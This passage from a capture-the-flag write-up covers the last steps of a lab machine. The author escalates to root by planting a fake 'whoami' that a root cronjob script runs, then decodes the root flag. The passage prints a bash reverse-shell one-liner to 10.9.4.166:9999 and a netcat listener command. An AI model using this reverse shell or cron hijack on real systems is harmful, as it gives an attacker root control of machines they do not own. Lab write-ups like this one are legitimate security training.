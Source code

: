 ```bash
2021/11/26 11:10:04 CMD: UID=0    PID=9910   | /bin/bash /home/alejandro/.test-script.sh 
2021/11/26 11:10:05 CMD: UID=0    PID=9911   | /bin/bash /home/alejandro/.test-script.sh 
<--snip-->
```
We can confirm that `.test-script.sh` is being executed as a part of the cronjob belongs to root. Now we can escalate our privilege by creating our custom `whoami`. My custom `whoami` is having it creates a reverse shell connection to my machine as *root* so i can control the system as *root* user. Let's do it. First we need to set up our *netcat listener* on our machine:
```bash
nc -lvnp 9999
```
I use *nano* text editor to create the file. The content of the file looks as follow:
```sh
#!/bin/bash

bash -c 'exec bash -i &>/dev/tcp/10.9.4.166/9999 <&1'
```
Save the file and make it executable:
```bash
chmod +x whoami
```
After a while we get a *reverse shell* connection back to our machine and we are *root* user on the machine
&nbsp;
![](root-1.jpg)
&nbsp;
Now that we are *root*, we can read the `root.txt` file located at `/root` and get the flag then submit to complete the room. To get the flag from `root.txt`:
> 1. Decode the file from base64
> 2. Subtitute `True` to be `1` and `False` to be `0`
> 3. In Cyberchef, select `From Binary` and `From Hex`

Now that we have the flag copy it and submit it.
&nbsp;
So guys that's it for this room. I hope this write-up helps you as much as it's meant to. Thank you for completing the room. I hope you can learn something from this room. Any question, complaint, compliment you can reach me at [@rofrahmanie](https://twitter.com/rofrahmanie) or `lara.crofwick@gmail.com`.


